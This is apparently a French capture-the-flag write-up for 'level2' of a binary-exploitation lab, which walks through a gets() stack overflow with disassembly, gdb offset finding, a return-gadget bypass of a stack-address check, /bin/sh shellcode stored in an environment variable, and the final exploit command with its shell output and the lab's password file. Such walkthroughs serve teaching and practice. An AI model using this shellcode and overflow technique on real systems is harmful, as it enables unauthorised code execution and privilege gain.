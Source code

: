 ## Démarches

Même réflexes que pour les levels précédents :

- Le binaire ./level2 attend quelque chose sur l'entrée standard, qu'il réimprime par la suite avant de quitter.
- `objdump -d level2` :
  - le main appelle une fonction `p` :
    ```
    804853f:	55                   	push   %ebp
    8048540:	89 e5                	mov    %esp,%ebp
    8048542:	83 e4 f0             	and    $0xfffffff0,%esp
    8048545:	e8 8a ff ff ff       	call   80484d4 <p>
    804854a:	c9                   	leave
    804854b:	c3                   	ret
    ```
  - la fonction p comporte les fonctions `fflush`, `gets`, `printf`, `exit`, `puts` et `strdup` :
    ```
    80484d4:	55                   	push   %ebp
    80484d5:	89 e5                	mov    %esp,%ebp
    80484d7:	83 ec 68             	sub    $0x68,%esp
    80484da:	a1 60 98 04 08       	mov    0x8049860,%eax
    80484df:	89 04 24             	mov    %eax,(%esp)
    80484e2:	e8 c9 fe ff ff       	call   80483b0 <fflush@plt>
    80484e7:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    80484ea:	89 04 24             	mov    %eax,(%esp)
    80484ed:	e8 ce fe ff ff       	call   80483c0 <gets@plt>
    80484f2:	8b 45 04             	mov    0x4(%ebp),%eax
    80484f5:	89 45 f4             	mov    %eax,-0xc(%ebp)
    80484f8:	8b 45 f4             	mov    -0xc(%ebp),%eax
    80484fb:	25 00 00 00 b0       	and    $0xb0000000,%eax
    8048500:	3d 00 00 00 b0       	cmp    $0xb0000000,%eax
    8048505:	75 20                	jne    8048527 <p+0x53>
    8048507:	b8 20 86 04 08       	mov    $0x8048620,%eax
    804850c:	8b 55 f4             	mov    -0xc(%ebp),%edx
    804850f:	89 54 24 04          	mov    %edx,0x4(%esp)
    8048513:	89 04 24             	mov    %eax,(%esp)
    8048516:	e8 85 fe ff ff       	call   80483a0 <printf@plt>
    804851b:	c7 04 24 01 00 00 00 	movl   $0x1,(%esp)
    8048522:	e8 a9 fe ff ff       	call   80483d0 <_exit@plt>
    8048527:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    804852a:	89 04 24             	mov    %eax,(%esp)
    804852d:	e8 be fe ff ff       	call   80483f0 <puts@plt>
    8048532:	8d 45 b4             	lea    -0x4c(%ebp),%eax
    8048535:	89 04 24             	mov    %eax,(%esp)
    8048538:	e8 a3 fe ff ff       	call   80483e0 <strdup@plt>
    804853d:	c9                   	leave
    804853e:	c3                   	ret
    ```
- Comme au level1, il est possible de faire segfault le programme avec un overflow de `gets` :
  - Avec gdb + peda, on créé un pattern de 100 caractères que l'on passe sur l'entrée standard au lancement du programme :
    `pattern create 100`
    > 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'

    `r < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")'`

  - On recherche le pattern :
    `pattern search`
    > EIP+0 found at offset: 80
    > 
    > EBP+0 found at offset: 76

  - On peut vérifier que le buffer ne peut accepter que 76 caractères : 
    `r < <(python -c 'print(76*"A"+"1234")')`
    > EBP: 0x34333231 ('1234')

-  On peut observer avant l'appel du printf une comparaison : le programme vérifie qu'il ne copie pas une adresse de la stack (commençant par *0xb*)
    >    0x08048500 <+44>:	cmp    eax,0xb0000000

- La vérification empêche de faire appel à une adresse située sur la stack, mais on peut sauvegarder un shellcode appelant */bin/sh* dans l'env :
  ```
  export SHELLCODE=`python -c 'print("\x90"*200+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"+"\xe0\xf6\xff\xbf")'`
  ```
- Dans GDB :
  - Récupérer avec gdb l'adresse du retour de p 
    `disass p`

    > 0x0804853e <+106>:	ret

  - Récupérer l'adresse de la var SHELLCODE dans l'env
    `x/s *((char **)environ)`
      > 0xbffff869

- Dans la VM (hors gdb), on passe dans l'entrée standard du programme 80 caractères (76 + 4 pour overflow le buffer), suivi de l'adresse de ret puis l'adresse du shellcode stocké dans l'env.
  
`(python -c 'print("A"*80+"\x3e\x85\x04\x08"+"\x69\xf8\xff\xbf")'; cat ) | ./level2`

```
  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>i���`
  ls
  ls: cannot open directory .: Permission denied
  pwd
  /home/user/level2
  whoami
  level3
  ls -la /home/user/level3
  total 17
  dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
  dr-x--x--x  1 root   root    340 Sep 23  2015 ..
  -rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
  -rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
  -rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
  -rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
  -rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
  cat /home/user/level3/.pass
  492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
  ```




<br>





----
## Ressources
- https://dhavalkapil.com/blogs/Shellcode-Injection/
- https://gist.github.com/lzutao/ca76df0d98cd46e3f7a98f0ac3beed58#background-information
- https://beta.hackndo.com/buffer-overflow/#pratique
- https://payatu.com/understanding-stack-based-buffer-overflow